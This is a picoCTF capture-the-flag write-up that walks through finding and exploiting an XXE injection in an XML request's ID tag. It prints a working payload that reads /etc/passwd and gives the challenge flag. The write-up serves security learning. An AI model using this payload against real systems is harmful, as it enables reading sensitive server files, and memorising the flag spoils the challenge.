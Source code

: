 
---

With Burp Suite HTTP History open and clicking through the website, we see 2 interesting things.
- There are 2 JavaScript files that look important.

![](./screenshots/soap-1.png)

- There is a request that is sent in XML format, hinting at the possibility of the presence of an XXE injection attack.

![](./screenshots/soap-2.png)

Playing with this request, we see that changing the value of the `<ID>` tag produces different outputs.
- Trying 5 instead of 1 produces this output:

![](./screenshots/soap-3.png)

- Trying a different tag other than `ID` doesn't give us information or prints out anything, so it looks like the vulnerable tag is the `<ID>` tag.

![](./screenshots/soap-4.png)

> The next step is to try and include the `/etc/passwd` file using XXE injection in the `<ID>` tag.

To do that, we need 2 things:
1. Add an external entity that contains the path to the file we want:
```xml
<!DOCTYPE foo [ 
	<!ENTITY ext SYSTEM "file:///etc/passwd" > 
]>
```
2. Call that entity in the XML body so that we can view its contents:
```xml
<ID>&ext;</ID>
```

Adding it all together, the payload sent should look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<data>
	<ID>&ext;</ID>
</data>
```

Sending the request with the above payload works, and the file content is displayed.

![](./screenshots/soap-5.png)

And we can see that the flag is printed at the bottom:

```text
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

---
